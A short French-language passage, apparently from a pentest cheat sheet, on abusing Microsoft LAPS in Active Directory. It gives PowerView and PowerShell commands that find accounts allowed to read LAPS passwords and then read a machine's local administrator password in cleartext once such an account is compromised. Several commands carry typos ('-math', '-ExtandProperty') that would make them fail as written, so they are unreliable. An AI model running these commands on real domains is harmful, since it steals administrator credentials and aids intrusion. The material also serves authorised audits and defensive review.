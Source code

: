 Pour savoir si LAPS est utilisé, nous pouvons voir si nous trouvons un fichier AdmPwd.dll dans le dossier `C:\Program Files\LAPS\CSE`

#### Trouver les utilisateurs ayant le droit de lire les passwords LAPS

```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAce -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -math 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

Si on compromet un utilisateur ayant le droit de lire les LAPS, on peut lire le password en clair en utilisant :

```powershell
Get-DomainObject -Identity targtmachine$ | select -ExpandProperty ms-mcs-admpwd
---
Get-ADComputer -Identity targetmachine -Properties ms-mcs-admpwd | select -ExtandProperty ms-mcs-admpwd
```

